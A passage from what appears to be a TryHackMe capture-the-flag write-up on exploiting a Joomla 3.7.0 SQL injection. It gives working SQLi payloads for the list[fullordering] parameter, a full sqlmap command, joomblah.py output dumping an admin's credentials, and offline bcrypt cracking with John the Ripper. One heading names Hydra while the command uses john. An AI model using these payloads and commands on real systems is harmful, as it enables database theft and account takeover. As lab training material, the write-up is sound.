 ```
    Title: Boolean-based blind - Parameter replace (DUAL)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)%   

```

### SQLMap
While I chose to avoid using SQLMap (in preparation for an eventual OSCP attempt), we could use the following command to begin enumerating the server's MariaDB database. The exploit found earlier gives us a sample to get us started:
```
sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

### Exploiting Joomla with `joomblah.py`
Instead, I decided to use [joomblah.py](https://github.com/XiphosResearch/exploits/tree/master/Joomblah), a tool built specifically for the Joomla 3.7.0 SQLi exploit. 

`python3 joomblah.py http://<target-ip>`
```
 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'j---h', 'j---h@tryhackme.com', '$2y$-----------------------------m', '', '']
  -  Extracting sessions from fb9j5_session          
```

Success! This script returns the username, email address, and password hash of the Joomla `Super User`. Let's see if we can crack the hash offline.

### Offline Password Cracking with Hydra
`john  --wordlist=/usr/share/wordlists/rockyou.txt supass.txt`
```
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
👍s----------3     (?)👍     
1g 0:00:05:39 DONE (2022-06-16 17:17) 0.002944g/s 137.8p/s 137.8c/s 137.8C/s thelma1..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed.                                                                                           ~5m:40s 
```

